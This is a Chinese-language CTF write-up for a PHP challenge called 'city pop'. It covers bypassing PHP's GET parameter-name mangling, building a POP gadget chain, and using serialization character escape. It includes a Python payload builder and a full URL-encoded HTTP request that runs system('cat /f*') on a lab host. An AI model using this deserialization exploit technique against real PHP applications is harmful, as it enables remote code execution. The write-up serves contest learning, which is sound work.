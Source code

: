 - # city pop
	- 思路：绕过GET参数会转换`.`的限制，传入序列化对象，并利用字符逃逸实例化任意对象，实现POP
	- 绕过GET参数
		- fuzz发现`ciscn[huaibei.pop`的`.`会保留，而方括号会变成下划线
	- POP
		- ```php
		  // Go::__destruct --> Get::__toString --> Get::__get --> Done::__invoke
		  
		  $done = new Done();
		  $done -> eval = "echo 114514;";
		  $get = new Get();
		  $get -> func = $done;
		  $get2 = new Get();
		  $get2 -> name = $get;
		  $go = new Go();
		  $go -> ray = $get2;
		  // $start = new Start("114514",serialize($go));
		  echo urlencode(serialize($go));
		  
		  ```
	- PHP序列化字符逃逸
		- 利用以下脚本构造对象
			- ```python
			  from utils.enc_dec import urlencode
			  
			  def human_readable(s):
			      s = s.replace(";", ";\n").replace("{", "{\n")
			      p = 0
			      while p < len(s):
			          s1 = s[p:]
			          if "s:" in s1:
			              num_start = s1.index("s:") + 2
			              num = s1[num_start:].split(":")[0]
			              # print(num)
			              num = int(num)
			              rm_start = p + num_start + len(str(num)) + 2
			              s = s[:rm_start] + s[rm_start:rm_start + num].replace("\n", "M") + s[rm_start + num:]
			              p = rm_start + num
			          else:
			              break
			  
			      s = s.replace("M", "")
			      l = s.split("\n")
			      indent = 0
			      for i in range(len(l)):
			          if "}" in l[i] and "s:" not in l[i]:
			              indent -= 1
			          l[i] = "    "*indent + l[i]
			          if "{" in l[i] and "s:" not in l[i]:
			              indent += 1
			      return "\n".join(l)
			  
			  eval_str = "var_dump(system('cat /f*'));"
			  
			  
			  start = "getflag" * 10
			  end = """           ";s:3:"end";
			  O:2:"Go":1:{s:3:"ray";O:3:"Get":2:{s:4:"func";N;s:4:"name";O:3:"Get":2:{s:4:"func";O:4:"Done":4:{s:4:"eval";s:LEN_EVAL:"EVAL";s:5:"class";N;s:3:"use";N;s:7:"useless";N;}s:4:"name";N;}}}
			  ;
			  """.replace("\n", "").replace("LEN_EVAL", str(len(eval_str))).replace("EVAL", eval_str)
			  s =  '''
			  O:5:"Start":2:{s:5:"start";s:LEN_START:"START";s:3:"end";s:LEN_END:"END";}
			  '''.replace("LEN_START", str(len(start))).replace("START", start).replace("LEN_END", str(len(end))).replace("END", end)
			  print(start)
			  print(urlencode(end))
			  print(human_readable(s))
			  
			  s = s.replace("getflag", "hark")
			  
			  print(human_readable(s))
			  # 执行watch python helper.py即可自动每秒运行一次脚本，实时预览脚本运行结果
			  ```
	- 最终payload如下
		- ```http
		  GET /pop.php?ciscn[huaibei.pop=getflaggetflaggetflaggetflaggetflaggetflaggetflaggetflaggetflaggetflag&pop=%20%20%20%20%20%20%20%20%20%20%20%22%3Bs%3A3%3A%22end%22%3BO%3A2%3A%22Go%22%3A1%3A%7Bs%3A3%3A%22ray%22%3BO%3A3%3A%22Get%22%3A2%3A%7Bs%3A4%3A%22func%22%3BN%3Bs%3A4%3A%22name%22%3BO%3A3%3A%22Get%22%3A2%3A%7Bs%3A4%3A%22func%22%3BO%3A4%3A%22Done%22%3A4%3A%7Bs%3A4%3A%22eval%22%3Bs%3A28%3A%22var_dump%28system%28%27cat%20/f%2A%27%29%29%3B%22%3Bs%3A5%3A%22class%22%3BN%3Bs%3A3%3A%22use%22%3BN%3Bs%3A7%3A%22useless%22%3BN%3B%7Ds%3A4%3A%22name%22%3BN%3B%7D%7D%7D%3B HTTP/1.1
		  Host: 172.1.35.1
		  Upgrade-Insecure-Requests: 1
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9
		  Connection: close
		  
		  
		  ```